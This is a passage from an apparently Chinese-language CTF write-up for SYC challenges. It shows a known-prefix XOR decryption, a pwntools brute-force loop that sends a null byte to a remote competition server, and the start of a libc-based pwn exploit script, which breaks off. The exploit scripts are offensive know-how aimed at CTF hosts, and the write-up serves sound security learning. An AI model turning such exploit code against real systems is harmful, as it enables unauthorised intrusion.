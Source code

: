 ```python
enc_bytes = long_to_bytes(enc)

# 已知 flag 的前缀

known_prefix = b'SYC{'

# 通过已知的前缀，推测 key

key = xor(enc_bytes[:4], known_prefix)

# 使用得到的 key 解密整个 flag

flag = xor(enc_bytes, key)

print(f"Key: {key}")

print(f"Flag: {flag.decode()}")
```

得flag：SYC{a_part_0f_X0R}

## 00000

没头脑，暴力破解：

```python
from pwn import *

\#context.terminal = ['tmux','splitw','-h']

\#io=process("./main")

\#gdb.attach(io)

for i in range(500):
  io=remote("nc1.ctfplus.cn",30000)

  io.recv()

  io.sendline('\x00')

  print(io.recv())

  io.interactive()
```

得flag：SYC{ed22cfb2-5914-45f5-8421-2c41bcd7ee22}

## 黑马楼



```python
from pwn import *
#from LibcSearcher import *
#context.terminal = ['tmux','splitw','-h']
libc = ELF("/home/feeling/pwn_file/py_payload/pwn/may/libc.so.6")
e=ELF("/home/feeling/pwn_file/py_payload/pwn/may/syscall")
p = remote('nc1.ctfplus.cn',30057)
#p=process("/home/feeling/pwn_file/py_payload/pwn/may/syscall")
#初始化

#获得pie
for i in range(7):    #获得balance地址
    p.sendline(b'1')
```